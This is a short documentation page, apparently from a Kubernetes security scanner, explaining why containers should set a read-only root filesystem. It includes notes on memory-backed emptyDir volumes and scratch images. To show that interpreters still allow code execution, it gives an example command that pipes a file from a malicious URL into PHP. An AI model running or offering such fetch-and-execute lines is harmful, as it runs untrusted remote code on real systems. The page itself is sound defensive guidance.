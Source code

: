 +++
title = "containers[] .securityContext .readOnlyRootFilesystem == true"
weight = 2
+++

## An immutable root filesystem can prevent malicious binaries being added to PATH and increase attack cost

An immutable root filesystem prevents applications from writing to their local disk. This is desirable in the event of an intrusion as the attacker will not be able to tamper with the filesystem or write foreign executables to disk.

However if there are runtimes available in the container then this is not sufficient to prevent code execution. Consider `curl http://malicious.php | php` or `bash -c "echo 'much pasted code'"`.

## Notes

- Immutable filesystems will prevent your application writing to disk. There may be a requirement for temporary files or local caching, in which case an  `emptyDir` volume can be mounted with type `Memory`
- Any volume mounted into the container will have its own filesystem permissions
- Scratch containers are an ideal candidate for `immutableRootFilesystem` - they contain only your code, minimal `dev`, `etc`, `proc`, and `sys`, and so need a runtime (or injection into the scratch binary) to execute code. Without a writable filesystem the attack surface is dramatically reduced.


## External Links
- [Kubernetes Docs: Volumes](https://kubernetes.io/docs/concepts/storage/volumes/#emptydir)


{{% katacoda %}}
